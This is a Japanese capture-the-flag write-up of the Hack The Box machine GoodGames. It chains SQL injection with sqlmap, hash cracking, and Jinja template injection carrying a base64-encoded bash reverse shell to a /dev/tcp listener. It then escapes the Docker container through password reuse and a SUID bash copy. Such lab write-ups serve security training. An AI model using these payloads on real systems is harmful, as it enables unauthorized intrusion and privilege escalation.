# GoodGames  
Hack The Box : GoodGamesのWriteupです。

| 作成者 | 難易度 | プラットフォーム |  
|:----:|:-----:|:---------------:|
| TheCyberGeek | Easy | Linux |  

### 参考  
- 公式Write-up  
- https://7rocky.github.io/en/htb/goodgames/

### foothold  

まずはnmap  

~~~
┌──(uwqpm㉿kali)-[~/htb/goodgames]
└─$ nmap -sV -n -Pn -A -p 21-25,35,43,53,69,80-88,107-110,115,118,123,137-139,143,156,161-162,220,384,389,443-445,465,514,530,543-544,591,593,636,901-903,953,992,995,1025,1433-1434,1812,3000,3306,3389,3535,5000,5432,5555,7777,8008,8065,8080,8443,8888 goodgames.htb 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-27 04:27 EDT
Nmap scan report for goodgames.htb (10.129.68.206)
Host is up (0.24s latency).
Not shown: 68 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.51
|_http-title: GoodGames | Community and Store
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
Service Info: Host: goodgames.htb

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.28 seconds
~~~  

80番ポートのみ開いているのでとりあえずブラウザからアクセス。  
  

気になる部分はログイン機能くらいなので、sqlmapでSQL Injectionをしてみる。  

一旦適当なIDとパスワードでログインを試行し、そのリクエストをBurpで取得する。  
そのリクエストを"goodgames.req"として保存する。  
※下記がそのリクエストファイルの中身  
~~~
POST /login HTTP/1.1
Host: goodgames.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: http://goodgames.htb
Connection: close
Referer: http://goodgames.htb/
Upgrade-Insecure-Requests: 1

email=admin%40goodgames.htb&password=test
~~~

下記を実行すると、"email"がSQLI可能だと分かる。  
```$ sqlmap -r goodgames.req```  

  

続いて下記を実行するとadminユーザのパスワードhashが手に入る。  
```$ sqlmap -r goodgames.req --dump```  

  

とりあえず既にクラックされているパスワードか下記サイトで確認する。  
https://crackstation.net/

無事見つかった。  

  

下記が見つかったID / パスワードである。  
admin@goodgames.htb / superadministrator


### user  
footholdの段階で発見したIDとパスワードでログインする。  

ログイン後、右上に歯車のマークが現れ、新たなサブドメインが取得できる。  
```internal-administration.goodgames.htb```  

/etc/hostsに登録してアクセスすると新たなログイン画面が現れる。  

"admin"と先ほど得た"superadministrator"でログインしてみると下記のDashboardに移る。  

  

プロフィールの設定画面の"Full Name"欄に下記のような文字列を入れてみる。  
```{{ 7*7 }}```  

  

保存すると、名前の部分が7*7の計算結果となった。  

  

これでSSTI可能ということが分かった。  

一旦、Shellを取得するためのペイロードを作成する。  

被攻撃側で実行したいコマンドはこちら。  
※(\<IP\>の部分は自身の環境のものを指定する)
```bash -i >& /dev/tcp/<IP>/7777 0>&1```  

これをこのまま送るのは難しいので、一旦base64でエンコードする。
※エンコード結果の末尾に=が含まれてたりすると失敗する気がするので、スペースを1つから2つに増やすなどして=が出力されないように調整する。  
```echo "bash -i >& /dev/tcp/<IP>/7777 0>&1" | base64```  

下記のように入力する。  
\<Base64の値\>を上記で出力した値に置き換える。  
```{{request.application.__globals__.__builtins__.__import__('os').popen('echo <Base64の値> | base64 -d | bash').read()}}```  

別のターミナルを開き、下記コマンドで待ち受けておく。  
```$ nc -lnvp 7777```  

この状態でSave allボタンを押すとShellが取得できる。  
※一見rootに見えるが、UserのShell。  

  

以上でuserの取得は完了。  

#### root  
userのステップで取得したShellは、Webアプリケーションが動いているDocker上のShellなのでエスケープする必要がある。  

/homeディレクトリを見てみると、"augustus"というユーザがいることが分かる。  

augustusのディレクトリを見ると所有者名等が1000になっていることが分かる。  

  

下記コマンドを実行してみる。  
```$ mount```  
すると下記のような出力が得られる。  
```/dev/sda1 on /home/augustus type ext4 (rw,relatime,errors=remount-ro)```  

Dockerでは、ホスト上のフォルダ等を指定したフォルダにマウントでき、それを利用していると考えられる。  

続いて下記コマンドを実行する。  
```$ ifconfig```  

すると下記の結果が得られる。  

  

"172.19.0.2"が割り当てられていることが分かる。  

これはこのDockerコンテナに割り当てられたIPアドレスで、ホストには"172.19.0.1"が割り当てられていると考えられる。  

そこで、"172.19.0.1"に対してのポートスキャンを試みる。  

コンテナ上にはnmapが入っていなかったので、下記のシェルスクリプトを送り込み、実行することにする。  

~~~
#!/bin/bash

for p in `seq 1 65535`; do
        timeout 1 echo 2>/dev/null > /dev/tcp/$1/$p && echo "Port $p open" &
done; wait
~~~

実行権限を付与し、引数に"172.19.0.1"を指定して実行する。  

すると22番ポートが開いていることが分かる。  

しかし現在のShellではsshを実行しようとするとエラーが発生する。  

下記コマンドで制限を回避する。  
```# script /dev/null bash```  

この状態で下記コマンドでssh接続を試行すると、無事接続できる。  
※ユーザ名は"augustus"、パスワードは"superadministrator"  
```# ssh augustus@172.19.0.1```  

  

また、現在の場所がDockerコンテナにマウントされていたっぽいことも分かる。  

なので、/bin/bashをここにコピーする。  

```$ cp /bin/bash ./exploit```  

一旦DockerコンテナのShellに戻る。  

このユーザはrootでUIDは0なので、先ほどコピーしてきたbash(exploit)所有者をrootにし、SUIDをセットすれば一般ユーザでもrootの権限でShellを操作できるようになる。  

下記を実行する。  
~~~
# chown root:root /home/augustus/exploit
# chmod 4755 /home/augustus/exploit
~~~

もう一度sshで"172.19.0.1"に接続し、下記を実行する。  

```$ ./exploit -p```  

  

実効ユーザ(euid)がrootになっており、whoamiの結果もrootとなっていることが分かる。  

以上でrootの取得も完了。  
